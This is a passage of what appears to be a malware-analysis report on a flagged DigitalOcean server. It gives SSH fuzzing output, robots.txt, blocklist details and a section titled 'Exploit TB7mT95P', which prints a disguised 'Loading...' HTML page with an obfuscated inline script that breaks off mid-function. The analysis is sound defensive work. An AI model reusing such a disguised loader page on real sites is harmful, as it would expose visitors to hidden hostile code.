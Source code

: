    Result of ssh version string corruption fuzzing: string=5353482d322e302d4f70656e5353485f352efe70312044656269616e2d357562756e747531

##### 2.6.4 robots.txt (no extra indications)

    User-agent: *
    Disallow: /

#### 2.7 Other server information (https://stat.ripe.net/app/launchpad/S1_137.184.228.130)

    + 137.184.228.130 has been found in one RECENT blocklist
    + Abuse contact abuse@digitalocean.com

## 3. Exploit TB7mT95P

#### 3.1 File type (wget, file)

    http document

#### 3.2 File contents (beautified)

    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml">
      <head>
        <title>Loading...
        </title>
        <meta name="viewport" content="width=320,initial-scale=1" />
        <style type="text/css">body,html{
          background:#fff;
          height:100%;
          margin:0;
          text-align:center}
          body:before{
            content:"";
            display:inline-block;
            vertical-align:middle;
            height:100%}
          div{
            font:bold 28px/160px arial;
            display:inline-block;
            color:#000;
            background:#32ad38;
            text-align:center;
            border-radius:50%;
            -moz-border-radius:50%;
            -webkit-border-radius:50%;
            width:160px;
            vertical-align:middle}
        </style>
      </head>
      <body>
        <div>Loading
        </div>
        <script type="text/javascript">!function(){
            var t=0;
            setInterval(function(){
              document.body.firstChild.style.opacity=.5+Math.abs(50-t++%100)/100}
                        ,10)}
          ();
          !function(u,o,c,a,f){
            function h(n){
              function t(n){
                return(n<16?"0":"")+n.toString(16)}